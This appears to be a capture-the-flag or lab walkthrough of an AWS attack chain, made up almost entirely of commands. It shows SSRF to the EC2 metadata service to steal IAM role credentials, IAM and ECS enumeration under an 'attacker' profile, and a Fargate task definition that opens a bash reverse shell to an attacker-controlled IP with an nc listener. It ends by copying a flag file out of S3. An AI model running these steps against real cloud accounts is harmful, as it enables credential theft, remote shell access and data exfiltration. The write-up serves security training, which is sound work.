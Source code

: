 
Go to `http://<ec2_ip_address>`

`http://<ec2_ip_address>/?url=http://[::ffff:a9fe:a9fe]/latest/meta-data/iam/security-credentials/<role>`

`aws configure --profile attacker`

`echo "aws_session_token = <token>" >> ~/.aws/credentials`

`aws --profile attacker sts get-caller-identity`

`aws --profile attacker iam get-role --role-name <role>`

`aws --profile attacker iam list-attached-role-policies --role-name <role>`

`aws --profile attacker iam list-role-policies --role-name <role>`

`aws --profile attacker iam get-role-policy --role-name <role> --policy-name <policy>`

`aws --profile attacker ecs list-clusters`

`aws --profile attacker ecs describe-clusters --clusters <cluster>`

`aws --profile attacker ecs list-container-instances --cluster arn:aws:ecs:us-east-1:<aws_id>:cluster/<cluster>`

Attacker prepare revshell at other public ip point with `nc -lvp 4000`.

And now come back to CLI.

`aws --profile attacker ecs register-task-definition --family iam_exfiltration --task-role-arn arn:aws:iam::<userr_id>:role/<role> --network-mode "awsvpc" --cpu 256 --memory 512 --requires-compatibilities "[\"FARGATE\"]" --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/<revshell_ip>/4000 0>&1\\\"\"]}]"`

`aws --profile attacker ec2 describe-subnets   `

`aws --profile attacker ecs run-task --task-definition iam_exfiltration --cluster arn:aws:ecs:us-east-1:<user_id>:cluster/<cluster> --launch-type FARGATE --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"<subnet>\"]}}"`

After a few minutes, the revshell will be connected by container.
Let's do it on revshell.

`apt-get update`

`apt-get install awscli`

`aws s3 ls`

`aws s3 ls s3://<bucket-name>/`

`aws s3 cp s3://<bucket-name>/flag.txt .`

`cat flag.txt`